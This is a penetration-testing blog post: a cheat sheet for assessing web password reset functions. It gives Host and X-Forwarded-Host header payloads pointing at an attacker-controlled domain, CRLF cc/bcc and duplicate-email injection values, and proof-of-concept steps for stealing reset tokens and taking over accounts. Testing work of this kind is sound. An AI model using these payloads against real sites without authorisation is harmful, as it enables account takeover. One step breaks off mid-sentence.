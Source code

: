 ```yaml
---
layout: blog_item
title: "Password Reset Testing Cheat Sheet"
date:   2021-06-01 03:29:10
author: Arr0way
description: 'Password reset function assessment cheat sheet, several techniques for assessing password reset functions on web apps and API's.'
categories: [cheat-sheet]
tags:
- 'Authentication'
- 'Web Application Penetration Testing'
---
```


* list element with functor item
{:toc}


The following document outlines some key techniques used when assessing password reset function on modern web application and API's, a useful resource for bug bounty hunters and penetration testers when performing password reset security testing.  

<!--more-->

## Check List 

- [ ] Host Header Injection Password Reset Function 
- [ ] Double Host Header Injection Password Reset Function
- [ ] X-Forwarded-Host Header Injection Password Reset Function
- [ ] Email Parameter Manipulation *add attacker controller second email address*

## Header Poisoning 

### Host: Header Injection Password Reset URL

The following headers can be modified in an attempt to modify the password reset token URL to an attacker controlled domain. Potentially allowing an attacker to obtain the reset token when a user clicks the link to perform a password reset. 

#### Potential Vulnerable Headers 

##### Host Header Password Reset

Replace the Host: header with a server you control.

```
Host: attackers-domain.com
```

##### Double Host Header Password Reset Filter Bypass

Often when you modify the Host header the application, or WAF fails to the process the request, a technique which can potentially bypass this filter if to simply add a second Host header to the request. 

```
Host: target.com
Host: attackers-domain.com
```

##### X-Forwarded-Host Header Password Reset 

Add an attacker controlled domain in the X-forwarded-Host header directive.

```
Host: target.com 
X-Forwarded-Host: attackers-domain.com
``` 


#### Confirm Vulnerable 

1. Perform a password reset normally, and modify the host header with a different url
2. Check the email sent by the application has the test url, not the applications url

#### PoC 

1. Replace vulnerable header with the attacker controlled domain 
2. Send the request
3. Wait for the victim to click reset link (or show PoC to a second account)
4. Exatract the token from the webserver logs you control
5. Use the extracted token to take over the user account

## Password Reset Token Filter Bypass

If the app is built on ruby, try adding a .json extension to the end of the password reset URL. In certain circumstances ACL bugs may exist, adding the extension could potentially bypass any additional layers of protection the application has in in place.

1. Add a .json to the reset token
2. Observe the applications response to see if the 

## Email Parameter Manipulation

### Password Change Functions: Intercept & Change the Email

1. Interecept the request, and replace the email address to one that you control 

### Password Reset Functons: Add Second Email 

Vulnerable applications can be manipulated to send password reset codes to multiple email addresses.  

1. Interecept the request, and add a second email address to the request

```
&
%20
|
%0a%0dcc:
%0a%0dbcc:
```
 
Modify the parameter matching the applications format, example:

``
email="victim@mail.tld",email="attacker@mail.tld"
```

<div class="note tip">
  <h5>Match the API Request Schema</h5>
  <p>Match the application / API's request formatting when adding the additional email address.</p>
</div>


## Password Token Referral Header Leak 

Vulnerable applications leak the password reset URL via the referal header. 

Assess the target using an intercepting proxy to identify if the referral header leaks the token through the referral header. 


Enjoy.

